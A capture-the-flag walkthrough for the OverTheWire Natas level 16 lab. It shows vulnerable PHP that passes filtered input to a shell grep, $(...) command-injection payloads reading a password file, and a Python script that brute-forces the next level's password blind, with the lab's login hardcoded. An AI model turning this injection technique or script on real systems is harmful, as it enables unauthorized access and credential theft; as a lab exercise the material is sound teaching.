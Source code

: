 > <?
> $key = "";
>
> if(array_key_exists("needle", $_REQUEST)) {
>     $key = $_REQUEST["needle"];
> }
> 
> if($key != "") {
>     if(preg_match('/[;|&`\'"]/',$key)) {
>         print "Input contains an illegal character!";
>     } else {
>         passthru("grep -i \"$key\" dictionary.txt");
>     }
> }
> ?>
> ```

We have another grep challenge.
The code uses `preg_match` to check if the input contains any of the characters `;`, `|`, `&`, `` ` ``, `'` or `"`. If it does, it prints an error message. Despite this, we can still use `$(command)` to execute a command and use its output as input for the `grep` command.
One idea is to cat the password for natas17 from the `/etc/natas_webpass/natas17` file, append it to dictionary.txt and then look for it in the file:

```bash
$(cat /etc/natas_webpass/natas17 >> dictionary.txt)
$(cat /etc/natas_webpass/natas17)
```

Unfortunately, this doesn't work.  
THINK KARIM, THINK!  
What if we grep the password for natas17 and check with which character it starts?  
If we don't guess the character, an empty string will be given as input to the `grep` command on dictionary.txt, which will return the content of dictionary.txt. BUT, if we guess the first character, we will get the password for natas17, which will be given as input to the `grep` command on dictionary.txt, which will return nothing, since the password is not in the dictionary.txt file.  
Thank to this different behavior we can do a blind attack and guess the password character by character:

```python
import requests
import string
from requests.auth import HTTPBasicAuth

URL = "http://natas16.natas.labs.overthewire.org/index.php"
auth=HTTPBasicAuth('natas16', 'hPkjKYviLQctEW33QmuXL6eDVfMW4sGo')
headers = {'Content-Type': 'application/x-www-form-urlencoded'}
known = ""
found = True
charSet = string.digits + string.ascii_letters

for i in range(1, 65):
        if not found:
                break
        for c in charSet:
                queryString = f'?needle=$(grep ^{known+c} /etc/natas_webpass/natas17)&submit=Search'
                r = requests.post(url=URL+queryString, headers=headers, auth=auth)
                if "<pre>\n</pre>" in r.text:
                        found = True
                        known += c
                        print(known)
                        break
                else:
                        found = False
```
